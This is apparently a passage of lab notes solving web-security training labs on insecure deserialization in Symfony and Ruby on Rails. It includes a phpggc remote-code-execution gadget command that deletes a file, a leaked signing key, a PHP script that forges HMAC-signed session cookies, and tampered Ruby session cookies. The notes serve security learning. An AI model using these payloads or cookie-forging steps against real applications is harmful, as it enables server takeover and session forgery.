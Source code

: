 `{"token":"O:4:"User":2:{s:8:"username";s:6:"wiener";s:12:"access_token";s:32:"xbvbfg31c88knaun8gwhb2m7b5suaxl4";}","sig_hmac_sha1":"814bb8d5ba38f2dbef9e2c84801ebb6a523a0bac"}`

Changed username to carlos, then sent the request. The response:

```
<p class=is-warning>Internal Server Error: Symfony Version: 4.3.6</p>
<p class=is-warning>PHP Fatal error:  Uncaught Exception: Signature does 
not match session in /var/www/index.php:7
Stack trace:
#0 {main}
  thrown in /var/www/index.php on line 7

Symfony Version: 4.3.6
```

_phpinfo.php_ -> SECRET\_KEY: of9b3wias30bxxqe32jr0buiqcteiy2l

**`$ phpggc Symfony/RCE4 exec 'rm /home/carlos/morale.txt' | base64`**

```
<?php
$object = "WRITEHERE";
$secretKey = "of9b3wias30bxxqe32jr0buiqcteiy2l";
$cookie = urlencode('{"token":"' . $object . '","sig_hmac_sha1":"' . hash_hmac('sha1', $object, $secretKey) . '"}');
echo $cookie;
?>
```

**Solution:**

**`$ php symfony.php -> Session Cookie value`**

### Lab: Exploiting Ruby deserialization using a documented gadget chain

This lab uses a serialization-based session mechanism and the Ruby on Rails framework. There is a documented exploit that enables remote code execution via a gadget chain in this framework.

To solve the lab, find a documented exploit and adapt it to create a malicious serialized object containing a remote code execution payload. Then, pass this object into the website to delete the morale.txt file from Carlos's home directory.

`Cookie: session=BAhvOglVc2VyBzoOQHVzZXJuYW1lSSILd2llbmVyBjoGRUY6EkBhY2Nlc3NfdG9rZW5JIiVxbG5kYWMwa2dxbWsybDV1d28zeXF3NG1hdjg5and0eQY7B0YK`

`#Decoded o: User:@usernameI"wiener:EF:@access_tokenI"%qlndac0kgqmk2l5uwo3yqw4mav89jwty;F`

`Cookie: session=BAhvOglVc2VyBzoOQHVzZXJuYW1lSSILY2FybG9zBjoGRUY6EkBhY2Nlc3NfdG9rZW5JIiVxbG5kYWMwa2dxbWsybDV1d28zeXF3NG1hdjg5and0eQY7B0YK`

`#Decoded o: User:@usernameI"carlos:EF:@access_tokenI"%qlndac0kgqmk2l5uwo3yqw4mav89jwty;F`

**In response:**

index.rb:19:in \`\<main>': Invalid access token for user carlos (RuntimeError)

[https://www.elttam.com/blog/ruby-deserialization/#generating-the-payload](https://www.elttam.com/blog/ruby-deserialization/#generating-the-payload)
